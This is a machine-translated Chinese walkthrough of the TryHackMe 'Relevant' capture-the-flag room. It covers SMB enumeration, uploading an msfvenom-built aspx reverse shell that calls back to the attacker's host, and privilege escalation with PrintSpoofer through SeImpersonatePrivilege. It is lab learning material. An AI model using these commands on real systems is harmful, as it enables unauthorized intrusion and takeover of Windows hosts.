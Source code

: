# 相关盒子(THM)的详细演练

> 原文：<https://infosecwriteups.com/detailed-walkthrough-on-relevant-box-thm-13fa7ae8d3e?source=collection_archive---------1----------------------->

让我们解决来自 Tryhackme 的名为“相关”的盒子

![](img/a2e4e23a26fc35f10b54d1d6af628b73.png)

# 渗透测试方法

1.  **侦察**
2.  **枚举**
3.  **剥削**
4.  **权限提升**

在 [Tryhackme](https://tryhackme.com/room/relevant) 访问此框

# 侦察:-

Nmap:- Nmap 扫描显示 5 个端口是开放的，其中 139(NetBios)和 445(SMB)

Netbios 是一个允许不同计算机上的应用程序在局域网内通信的程序

**SMB**:-服务器消息块(SMB)是一种网络协议，使用户能够与远程计算机和服务器通信，以使用他们的资源或共享、打开和编辑文件。它也被称为服务器/客户机协议，因为服务器有一个可以与客户机共享的资源。

**中小企业如何运作？**

*   SMB 协议通过来回发送多个请求-响应消息来创建服务器和客户端之间的连接
*   想象一下，你的团队正在处理一个大项目，这个项目涉及到很多来回。您可能希望能够共享和编辑存储在一个位置的文件。SMB 协议将允许您的团队成员使用这些共享文件，就像它们在自己的硬盘上一样。即使他们中的一个人在世界的另一端出差，他们仍然可以访问和使用数据。
*   假设你办公室的打印机连接到接待员的电脑。如果您想要打印文档，您的计算机(客户端)会向接待员的计算机(服务器)发送打印请求，并使用 SMB 协议来完成打印。然后，服务器将发回一个响应，说明文件已排队、已打印，或者打印机用完了洋红色，无法执行任务。

![](img/20963584c03d28d78f25269b6952e738.png)

Nmap

# 列举

因为我们知道 Smb 是开放的，所以我们可以使用一个名为`smbclient`的工具来列出连接到该网络的设备

![](img/02a8426f87cdc370b274cbc78f6277fa.png)

SMB 客户端

*   由于有一个不常用的设备，我们可以转到该设备，现在我们已连接到 smb

![](img/c756968fda1a3753bf5ca539251548db.png)

*   当我们列出这个设备中的内容时，我们可以找到 passwords.txt，它是 base64 编码的。

***目录清单* :-**

*   虽然我们可以看到一个用户名和密码的兔子洞，但我们可以看到另一个端口(即 3389)正在运行类似于端口 80 的 web 服务
*   如果我们在该端口上列出一个目录，我们可以看到一个目录`nt4wrksv`处于打开状态，我们还可以看到一个同名的共享处于打开状态。所以如果我们做`http:<IP>/nt4wrksv/passwords.txt`，它列出了那个文本文件的内容

![](img/3271eaa5be94db729366c5b1927253c6.png)

*   因为我们可以访问内容，并且我们有上传权限，我们可以做的是上传一个 aspx 反向外壳并获取外壳
*   使用此命令`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your-IP> LPORT=53 -f aspx -o rev.aspx`创建一个 aspx shell
*   如果我们做了`put rev.aspx`，它会被下载到 smb 共享上
*   然后，如果我们遍历到`http://<your-ip>:3389/nt4wrksv/rev.aspx`并启动一个反向 shell，我们就可以获得用户 shell
*   如果我们执行这个命令`type c:\users\bob\users.txt`会提供一个 user.txt 标志

# 特权升级

*   如果我们看到`whoami /priv`，它将列出 bob 用户可以访问的所有权限

![](img/e01753580ce414201ca5b83cfcc5af3f.png)

*   如我们所见，有一个`SeImpersonatePrevilige`设置为启用。我们可以使用名为 [printspoofer](https://github.com/dievus/printspoofer) 的工具来获得 root 权限
*   使用`PrintSpoofer.exe -i -c cmd`获得 root 访问权限
*   然后，如果我们遍历到/users/administrator/desktop/root . txt，我们可以找到根标志